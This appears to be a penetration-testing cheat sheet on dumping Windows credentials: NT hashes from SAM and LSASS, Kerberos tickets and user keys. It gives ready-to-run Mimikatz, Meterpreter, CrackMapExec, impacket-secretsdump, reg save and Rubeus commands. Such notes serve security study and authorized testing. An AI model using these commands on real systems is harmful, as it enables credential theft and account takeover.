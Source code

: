 ```yaml
---
title: Windows privilege escalation
---
```


- [1. Extracting NT hash](#1-extracting-nt-hash)
  - [1.1. From local SAM](#11-from-local-sam)
    - [1.1.1. Mimiktaz](#111-mimiktaz)
    - [1.1.2. SAM dumping and offline hashes extraction](#112-sam-dumping-and-offline-hashes-extraction)
  - [1.2. From LSASS memory](#12-from-lsass-memory)
- [2. Extracting Kerberos TGT](#2-extracting-kerberos-tgt)
- [3. Extracting Kerberos user's key](#3-extracting-kerberos-users-key)

## 1. Extracting NT hash

### 1.1. From local SAM
SAM (Security Account Manager) is a database with all the **local user** accounts and passwords. It acts as a database. Passwords, which are stored in the SAM, are hashed. SAM data is used by LSASS to verify user credentials.

#### 1.1.1. Mimiktaz
Mimikatz is one of the tools that are able to dump SAM file hashes.

```powershell
mimikatz.exe "privilege::debug" "token::elevate" "lsadump::sam" "exit"
```

Metasploit, when the session is already established, has built-in ability to dump SAM hashes.

```bash
# Meterpreter
meterpreter > hashdump
```

CrackMapExec tool is able to remotely dump SAM hashes (via SMB using credentials).

```bash
crackmapexec smb <target-ip> -u <username> -p <password> --sam
```

#### 1.1.2. SAM dumping and offline hashes extraction
If an attacker has privileges to access any file in the system, then he can export SAM and SYSTEM keys from the Windows registry and perform the extraction of hashes offline.

```powershell
# Dump SYSTEM hashes
reg save hklm\system <dump-file>

# Dump SAM hashes
reg save hklm\sam <dump-file>
```

Now, transfer files to the attacker machine.

```bash
# Dump hashes offline
impacket-secretsdump -sam <sam-file> -system <system-file> LOCAL 
```

### 1.2. From LSASS memory
LSASS (_Local Security Authority Subsystem Service_) is a process running on every Windows OS. It verifies users logging, handles password changes, creates access tokens, writes to the Windows Security Log. In a domain environment LSASS communicates with a Domain Controller. It manages NTLM, Kerberos, NetLogon authentication. It's not possible to use Windows without `lsass.exe` running. An attacker is able to dump the LSASS process memory and retrieve NT hashes.

Tips:

- Memory dump must be performed after logging in successfully. Correct data must be provided to LSASS process before extraction.
- Memory dump should be performed from SYSTEM or local Administrator account.
- Not secured LSASS memory dump can be performed using built-in Windows tools (e.g. [dump.exe](https://lolbas-project.github.io/lolbas/OtherMSBinaries/Dump64/)). Then credentials can be extracted offline.

LSASS process might have additional security layer called _LSA protection_. It can be omitted with tools like **Mimikatz**.

```powershell
mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::msv" "exit"
```

## 2. Extracting Kerberos TGT
Kerberos tickets can be extracted from LSASS memory (Kerberos harvesting) using `mimikatz` or `rubeus` tool. Most often it requires administrator privileges.

```powershell
# Show all Kerberos tickets stored in memory (and associated services)
Rubeus.exe triage

# Dump Kerberos tickets of :user
Rubeus.exe dump /user:<user>

# Dump Kerberos tickets of :service
Rubeus.exe dump /service:<service>
```

## 3. Extracting Kerberos user's key
It's done to perform Pass-the-Key attack.

```powershell
mimikatz.exe "privilege::debug" "sekurlsa::ekeys"
```
